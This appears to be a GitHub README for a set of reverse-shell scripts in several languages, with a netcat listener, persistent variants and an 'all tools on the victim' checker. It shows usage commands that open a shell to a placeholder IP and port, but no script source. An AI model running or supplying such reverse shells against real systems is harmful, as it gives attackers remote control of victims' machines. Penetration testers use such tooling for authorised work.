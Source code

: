 # Reverse-Shell
 A collection of scripts for creating a reverse shell from a victim machine to connect to an attacker listener.

## Scripts
Attacker Listener script with:
- Netcat (`nc`) `attacker.sh`

Simple Reverse shells in:
- Bash: `reverse.sh`
- Python: `reverse.py`
- PHP: `reverse.php`
- C: `reverse.c`
- JavaScript: `reverse.js`
- Go: `reverse.go`

Persistent Reverse shells in:
- Bash: `reverse_persistent.sh`
- Python: `reverse_persistent.py`

Reverse shell in all available languages and tools on the victim system:
- `reverse_check_all.sh`

Supported Languages/Tools:
- `bash`
- `socat`
- `perl`
- `python2`
- `python3`
- `php`
- `go`
- `nc`
- `ncat`
- `node`
- `gcc`
- `clang`

## Usage
Run every script with the `--help` option (or `-h`), to see the scripts arguments and how to run.

Example for `reverse.py`:
```bash
$ python3 reverse.py -h

usage: reverse.py [-h] IP PORT

Simple Reverse Shell script in Python that connects to a remote machine.

positional arguments:
  IP          IPv4 address of the remote machine
  PORT        Port of the remote machine

optional arguments:
  -h, --help  show this help message and exit
```

### Bash
```bash
bash reverse.sh IP PORT
```

### Python
```bash
python3 reverse.py IP PORT
```

### PHP
```bash
php reverse.php IP PORT
```

### C
```bash
gcc reverse.c -o reverse.out && ./reverse.out IP PORT
# or
clang reverse.c -o reverse.out && ./reverse.out IP PORT
```

### Go
```bash
go run reverse.go IP PORT
```

### JavaScript (Node.js)
```bash
node reverse.js IP PORT
```


## To-Do
- [ ] Add Terminal Colors (Bash, Python)
- [ ] Add functionality to main function
- [ ] Implement for `reverse_check_all.sh`:
    - [ ] `ruby`
    - [ ] `awk`
    - [ ] `pwsh` (Powershell)
    - [ ] `openssl`
- [ ] Add more persistent scripts for other languages.

## Links
- [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)